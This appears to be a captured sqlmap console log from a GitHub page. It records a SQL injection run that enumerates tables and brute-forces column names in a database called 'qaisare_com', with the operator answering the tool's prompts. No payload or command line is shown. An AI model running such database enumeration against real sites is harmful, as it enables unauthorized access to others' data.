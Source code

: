 [18:07:24] [INFO] retrieved: the_geom                                                            
[18:07:43] [INFO] retrieved: tecla                                                               
[18:09:53] [INFO] retrieved: desconto                                                            
[18:10:37] [INFO] retrieved: standort_nr                                                         
[18:10:43] [INFO] retrieved: abfrsql                                                             
[18:12:03] [INFO] retrieved: blogcommentsaccess                                                  
[18:14:11] [INFO] retrieved: config_item                                                         
[18:16:20] [INFO] retrieved: namaakun                                                            
                                                                                                 
[18:16:29] [INFO] fetching entries for table 'dtb_campaign_detail' in database 'qaisare_com'
[18:16:29] [INFO] fetching number of entries for table 'dtb_campaign_detail' in database 'qaisare_com'
[18:16:29] [INFO] retrieved: 
[18:16:30] [WARNING] unable to retrieve the number of entries for table 'dtb_campaign_detail' in database 'qaisare_com'
[18:16:30] [INFO] fetching columns for table 'jos_components' in database 'qaisare_com'
[18:16:30] [INFO] retrieved: 
[18:16:30] [ERROR] unable to retrieve the number of columns for table 'jos_components' in database 'qaisare_com'
[18:16:30] [WARNING] unable to retrieve column names for table 'jos_components' in database 'qaisare_com'
do you want to use common column existence check? [y/N/q] y
which common columns (wordlist) file do you want to use?
[1] default '/usr/share/sqlmap/txt/common-columns.txt' (press Enter)
[2] custom
> 1
[18:17:47] [INFO] checking column existence using items from '/usr/share/sqlmap/txt/common-columns.txt'
[18:17:47] [INFO] adding words used on web page to the check list
[18:18:39] [INFO] retrieved: location_id                                                         
[18:19:45] [INFO] retrieved: course_no                                                           
[18:21:54] [INFO] retrieved: xcategoria                                                          
[18:24:02] [INFO] retrieved: am_id                                                               
[18:26:10] [INFO] retrieved: mod_signallogin                                                     
[18:28:18] [INFO] retrieved: jenis                                                               
                                                                                                 
[18:28:30] [INFO] fetching entries for table 'jos_components' in database 'qaisare_com'
[18:28:30] [INFO] fetching number of entries for table 'jos_components' in database 'qaisare_com'
[18:28:30] [INFO] retrieved: 
[18:28:31] [WARNING] unable to retrieve the number of entries for table 'jos_components' in database 'qaisare_com'
[18:28:31] [INFO] fetching columns for table 'user_rights' in database 'qaisare_com'
[18:28:31] [INFO] retrieved: 
[18:28:32] [ERROR] unable to retrieve the number of columns for table 'user_rights' in database 'qaisare_com'
[18:28:32] [WARNING] unable to retrieve column names for table 'user_rights' in database 'qaisare_com'
do you want to use common column existence check? [y/N/q] y
which common columns (wordlist) file do you want to use?
[1] default '/usr/share/sqlmap/txt/common-columns.txt' (press Enter)
[2] custom
> 1
[18:30:13] [INFO] checking column existence using items from '/usr/share/sqlmap/txt/common-columns.txt'
[18:30:13] [INFO] adding words used on web page to the check list
[18:32:08] [INFO] retrieved: mealid                                                              
[18:33:29] [INFO] retrieved: u_id                                                                
[18:34:17] [INFO] retrieved: product_price_id                                                    
[18:34:18] [INFO] retrieved: country_2_code                                                      
[18:36:26] [INFO] retrieved: tags                                                                
[18:38:35] [INFO] retrieved: pins                                                                
[18:39:15] [INFO] retrieved: idgroup                                                             
[18:39:16] [INFO] retrieved: progetto                                                            
[18:39:31] [INFO] retrieved: mod_translate                                                       